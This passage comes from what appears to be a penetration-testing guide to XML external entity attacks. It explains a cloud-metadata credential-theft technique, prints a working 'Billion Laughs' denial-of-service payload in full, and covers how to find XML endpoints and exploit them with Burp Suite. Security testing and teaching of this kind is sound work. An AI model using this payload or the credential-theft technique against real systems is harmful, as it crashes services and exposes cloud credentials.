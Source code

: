 **Explanation**: This attempts to retrieve AWS IAM credentials from the EC2 instance metadata service. The application's response will contain these credentials if successful (in-band) or a network request will be made to the internal IP (blind).  

## XXE for Denial of Service (DoS) - Billion Laughs Attack**
This attack aims to crash the XML parser by defining recursively expanding entities. The small XML document rapidly grows in memory, consuming all available resources.  
#### Payload
        ```xml
        <?xml version="1.0"?>
        <!DOCTYPE lolz [
          <!ENTITY lol "lol">
          <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
          <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
          <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
          <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
          <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
          <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
          <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
          <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
        ]>
        <lolz>&lol9;</lolz>
        ```
**Explanation**: `lol` expands to "lol", `lol2` expands to 10 "lol"s, `lol3` expands to 100 "lol"s, and so on. `lol9` will expand to 1 billion "lol"s, rapidly consuming memory.  

## Identifying XML Endpoints

**Content-Type Header**:  
Look for `Content-Type: application/xml` or `text/xml` in HTTP requests.  

**File Extensions**:  
URLs ending in `.xml`, `.svg` (SVG is XML), `.wsdl`, `.dtd`, `.rss`, `.atom`.  

**SOAP/WSDL Endpoints**:  
Often use XML in their requests and responses.  

**POST Bodies**:  
Inspect HTTP POST requests for XML content.  

**API Documentation**:  
APIs might specify XML as a supported input format.  

## Tools for Exploitation

### Burp Suite (Manual & Extensions)
**Repeater**: Manually inject XXE payloads into XML requests.  

**Decoder**: URL encode payloads as needed.  

**Burp Collaborator**: Essential for detecting blind/out-of-band XXE vulnerabilities by generating unique domains that log DNS/HTTP interactions.  
